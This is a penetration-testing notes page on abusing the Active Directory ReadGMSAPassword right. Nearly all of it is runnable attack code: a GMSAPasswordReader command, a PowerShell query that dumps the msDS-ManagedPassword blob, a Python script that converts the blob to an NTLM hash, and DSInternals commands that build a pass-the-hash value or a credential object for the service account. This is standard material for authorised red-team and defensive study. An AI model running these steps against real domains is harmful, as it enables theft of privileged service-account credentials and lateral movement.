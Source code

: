 # GMSAPasswordRead

ReadGMSAPassword allows an attacker to use the password of a Group Managed Service Account which usually has elevated privileges

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#reading-gmsa-password" %}

{% embed url="https://github.com/expl0itabl3/Toolies" %}

```powershell
.\GMSAPasswordReader.exe --accountname 'svc_account'
```

### Remotely Read GMSA Passwords

Retrieve hash remotely if we can't WinRM

{% embed url="https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword" %}

{% embed url="https://github.com/micahvandeusen/gMSADumper" %}

### Manually from gMSADumper

```powershell
(Get-ADServiceAccount -Identity 'SVC_ACCOUNT' -Properties 'msDS-ManagedPassword').'msDS-ManagedPassword' > blob.txt
```

```powershell
(Get-Content 'blob.txt') -join ','
1,0,0,0,36,2,0,0,16,0,18,1,......
```

{% code title="blob2hash.py" %}
```python
#!/usr/bin/env python3
from ldap3 import ALL, Server, Connection, NTLM, SASL, KERBEROS, extend, SUBTREE
import argparse
from binascii import hexlify
from Cryptodome.Hash import MD4
from impacket.ldap.ldaptypes import ACE, ACCESS_ALLOWED_OBJECT_ACE, ACCESS_MASK, LDAP_SID, SR_SECURITY_DESCRIPTOR
from impacket.structure import Structure
from impacket.krb5 import constants
from impacket.krb5.crypto import string_to_key
import sys

data = [1,0,0,0,36,2,0,0,16,0,18,1,......]
#convert this into bytes
data = bytes(data)

class MSDS_MANAGEDPASSWORD_BLOB(Structure):
    structure = (
        ('Version','<H'),
        ('Reserved','<H'),
        ('Length','<L'),
        ('CurrentPasswordOffset','<H'),
        ('PreviousPasswordOffset','<H'),
        ('QueryPasswordIntervalOffset','<H'),
        ('UnchangedPasswordIntervalOffset','<H'),
        ('CurrentPassword',':'),
        ('PreviousPassword',':'),
        #('AlignmentPadding',':'),
        ('QueryPasswordInterval',':'),
        ('UnchangedPasswordInterval',':'),
    )

    def __init__(self, data = None):
        Structure.__init__(self, data = data)

    def fromString(self, data):
        Structure.fromString(self,data)

        if self['PreviousPasswordOffset'] == 0:
            endData = self['QueryPasswordIntervalOffset']
        else:
            endData = self['PreviousPasswordOffset']

        self['CurrentPassword'] = self.rawData[self['CurrentPasswordOffset']:][:endData - self['CurrentPasswordOffset']]
        if self['PreviousPasswordOffset'] != 0:
            self['PreviousPassword'] = self.rawData[self['PreviousPasswordOffset']:][:self['QueryPasswordIntervalOffset']-self['PreviousPasswordOffset']]

        self['QueryPasswordInterval'] = self.rawData[self['QueryPasswordIntervalOffset']:][:self['UnchangedPasswordIntervalOffset']-self['QueryPasswordIntervalOffset']]
        self['UnchangedPasswordInterval'] = self.rawData[self['UnchangedPasswordIntervalOffset']:]


                    
blob = MSDS_MANAGEDPASSWORD_BLOB()
blob.fromString(data)
currentPassword = blob['CurrentPassword'][:-2]

# Compute ntlm key
ntlm_hash = MD4.new ()
ntlm_hash.update (currentPassword)
passwd = hexlify(ntlm_hash.digest()).decode("utf-8")
                    
print(passwd)                   
```
{% endcode %}

```
python blob2hash.py
```

### Powershell

```powershell
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
ConvertFrom-ADManagedPasswordBlob $mp
# Build a NT-Hash for PTH
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
# Alterantive: build a Credential-Object with the Plain Password
$cred = new-object system.management.automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```
